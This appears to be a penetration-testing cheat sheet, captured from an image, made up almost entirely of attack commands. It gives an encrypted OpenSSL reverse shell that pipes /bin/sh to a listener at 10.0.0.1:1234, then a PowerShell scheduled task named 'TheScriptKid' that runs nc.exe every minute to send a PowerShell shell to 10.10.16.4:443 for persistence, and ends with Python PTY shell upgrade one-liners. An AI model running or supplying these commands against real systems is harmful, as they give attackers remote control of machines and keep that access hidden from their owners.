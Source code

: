 **Step 1**

```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

**Step 2**

```
openssl s_server -key key.pem -cert cert.pem -port 1234
```

**Step 3**

```
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -connect 10.0.0.1:1234 > /tmp/s 2> /dev/null; rm /tmp/s
```

## Maintaining Access

### Via Windows Task

PowerShell

```
$Action = New-ScheduledTaskAction -Execute 'C:\windows\system32\cmd.exe' -Argument '/c C:\ProgramData\nc.exe 10.10.16.4 443 -e C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe'
```

```
$Trigger = New-ScheduledTaskTrigger -RepetitionInterval (New-TimeSpan -Minutes 1) -RepetitionDuration (New-TimeSpan -Days 1) -At (Get-Date) -Once
```

```
$Settings = New-ScheduledTaskSettingsSet
```

```
$Task = New-ScheduledTask -Action $Action -Trigger $Trigger -Settings $Settings
```

```
Register-ScheduledTask -TaskName 'TheScriptKid' -InputObject $Task
```

```
Start-ScheduledTask -TaskName 'TheScriptKid'
```

## PTY Shells

### Linux

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
python -c 'import pty; pty.spawn("/bin/bash")'
```
